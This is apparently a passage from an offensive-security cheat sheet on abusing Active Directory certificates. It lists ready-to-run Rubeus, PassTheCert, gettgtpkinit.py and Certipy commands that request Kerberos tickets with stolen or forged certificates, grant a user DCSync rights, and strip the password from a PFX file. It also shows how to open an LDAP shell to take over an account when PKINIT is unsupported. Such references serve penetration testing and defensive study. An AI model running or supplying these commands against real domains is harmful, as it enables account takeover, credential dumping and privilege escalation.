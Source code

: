 * Windows

  ```ps1
  # Information about a cert file
  certutil -v -dump admin.pfx

  # From a Base64 PFX
  Rubeus.exe asktgt /user:"TARGET_SAMNAME" /certificate:cert.pfx /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show

  # Grant DCSync rights to an user
  ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --sid <user_SID>
  # To restore
  ./PassTheCert.exe --server dc.domain.local --cert-path C:\cert.pfx --elevate --target "DC=domain,DC=local" --restore restoration_file.txt
  ```

* Linux

  ```ps1
  # Base64-encoded PFX certificate (string) (password can be set)
  gettgtpkinit.py -pfx-base64 $(cat "PATH_TO_B64_PFX_CERT") "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
  ​
  # PEM certificate (file) + PEM private key (file)
  gettgtpkinit.py -cert-pem "PATH_TO_PEM_CERT" -key-pem "PATH_TO_PEM_KEY" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

  # PFX certificate (file) + password (string, optionnal)
  gettgtpkinit.py -cert-pfx "PATH_TO_PFX_CERT" -pfx-pass "CERT_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

  # Using Certipy
  certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
  certipy cert -export -pfx "PATH_TO_PFX_CERT" -password "CERT_PASSWORD" -out "unprotected.pfx"
  ```

### PKINIT ERROR

When the DC does not support **PKINIT** (the pre-authentication allowing to retrieve either TGT or NT Hash using certificate). You will get an error like the following in the tool's output.

```ps1
$ certipy auth -pfx "PATH_TO_PFX_CERT" -dc-ip 'dc-ip' -username 'user' -domain 'domain'
[...]
KDC_ERROR_CLIENT_NOT_TRUSTED (Reserved for PKINIT)
```

There is still a way to use the certificate to takeover the account.

* Open an LDAP shell using the certificate

    ```ps1
    certipy auth -pfx target.pfx -debug -username username -domain domain.local -dns-tcp -dc-ip 10.10.10.10 -ldap-shell
    ```
